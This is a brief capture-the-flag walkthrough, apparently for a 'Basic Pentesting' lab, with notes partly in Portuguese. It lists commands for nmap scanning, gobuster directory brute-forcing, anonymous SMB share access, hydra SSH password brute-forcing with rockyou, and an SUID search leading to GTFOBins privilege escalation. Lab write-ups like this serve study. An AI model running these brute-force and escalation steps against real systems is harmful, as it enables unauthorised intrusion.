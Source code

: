 
# BASIC PENTESTIN

### What is the name of the hidden directory on the web server(enter name without /)?
```bash
nmap -sv "IP"
 ```
## Gobuster 

```bash
sudo gobuster dir -u http://0.0.0.0/ -x txt,php,html -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 2> /dev/null
 ```   

### - User brute-forcing to find the username & password
 - smbclient
```bash
  smbclient -L "ip" 
 ```
 -  Find anonymous
```bash
 smbclient -N \\\\10.10.181.112\\Anonymous
 ```
download "get staff.txt" (find o user "jan")

### Hidra
```bash
hydra -l "user" -P /usr/share/wordlists/rockyou.txt "ip" ssh -V -F
 ```
 - (-l user, -P path, -F stop when found valid password, -V verbose)

### What is the final password you obtain?

- user kay

## Encontrar arquivos com permissoes 
#### Search for files with SUID permission, which file is weird?
```bash
find / -perm -u=s -ls 2>/dev/null
```
### VIM
## Site SUID
```bash
https://gtfobins.github.io/gtfobins/python/
 ```  



